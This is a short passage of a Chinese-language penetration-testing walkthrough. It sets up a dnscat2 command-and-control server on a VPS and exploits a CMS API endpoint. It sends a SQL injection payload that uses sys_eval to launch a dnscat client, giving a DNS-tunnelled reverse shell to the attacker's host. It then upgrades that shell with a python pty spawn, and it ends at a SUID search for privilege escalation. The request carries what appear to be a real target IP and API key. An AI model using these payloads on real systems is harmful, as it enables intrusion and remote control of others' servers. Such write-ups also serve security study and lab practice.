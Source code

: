 [![](assets/1708919820-d0e0c0c2c3e7d6ddbc12857f676674fb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240215024837-a973be90-cb69-1.png)

然后在 vps 上起一个 dnscat 的 docker

```bash
docker run -p 53:53/udp -it --rm mpercival/dnscat2 ruby ./dnscat2.rb ns1.xxx.xxx -c datou
```

这里注意吧 vps 的 53 端口添加 udp 协议许可

```bash
POST /api/pages/cms/libraryText/list HTTP/1.1
Host: 39.100.183.36
X-SS-API-KEY: e7d41890-5742-48f0-9f3c-1393db541fc7
Content-Type: application/json
Content-Length: 131

{"siteId":1,"keyword":"';select sys_eval('/tmp/dnscat --secret=datou ns1.xxx.xxx')-- ","groupId":0,"page":1,"perPage":24}
```

出现 New window created: 1 说明执行成功

```bash
window -i 1
shell//显示New window created: 3，然后换到 3
window -i 3
python -c 'import pty;pty.spawn("/bin/bash")'
```

**提权部分**

```bash
find / -perm -u=s -type f 2>/dev/null
```
